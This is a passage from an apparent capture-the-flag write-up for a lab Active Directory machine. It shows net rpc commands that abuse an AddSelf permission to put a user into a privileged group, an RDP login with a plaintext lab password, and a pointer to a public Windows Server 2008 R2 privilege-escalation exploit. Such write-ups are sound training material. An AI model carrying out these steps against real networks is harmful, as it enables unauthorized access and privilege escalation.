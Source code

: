 Here:

- **--no-add** is not to create new user, just change it's password

<img src="https://i.imgur.com/PAmrRTX.png">

We can see that the password of machine account **ADMWS01$** is changed. Now, we can abuse **AddSelf** permission to add our user **ldapreader** to Services Group using net rpc command. 

```bash
$ net rpc group addmem "SERVICES" "ldapreader" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
```

Here: 

- **addmem** is to add member
- **-S** for domain controller address (Server Address)
  
<img src="https://i.imgur.com/TqEqAFq.png">

To verify if our user is successfully added in **Services** group, we can use **net rpc** command

```bash
net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
```

Here: 
- **members** is to list down members in services group.
  
<img src="https://i.imgur.com/YQMWdFW.png">

We can see that we are now a member of **SERVICE** group. Let's get RDP session using **xfreerdp** tool.

```bash
$ xfreerdp /u:ldapreader /p:ppYaVcB5R /v:10.10.90.65 /tls-seclevel:0
```

<img src="https://i.imgur.com/EdmB8wn.png">

<img src="https://i.imgur.com/Zxx48vG.png">

User Flag is present in `C: `drive

# Privilege Escalation

From `systeminfo` command, we found useful information about the system. System is **Microsoft Windows Server 2008 R2**, I am pretty sure that there would be an public exploit will available for that.

<img src="https://i.imgur.com/yTDPIIf.png">

After some googling i discovered an interesting article by **itm4n** about **Microsoft Windows Server 2008 R2 Local Privilege Escalation**. [An Unconventional Exploit for the RpcEptMapper Registry Key Vulnerability](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/) (Reference 3). The Exploit POC is also given [here](https://github.com/itm4n/Perfusion) (Reference 4).

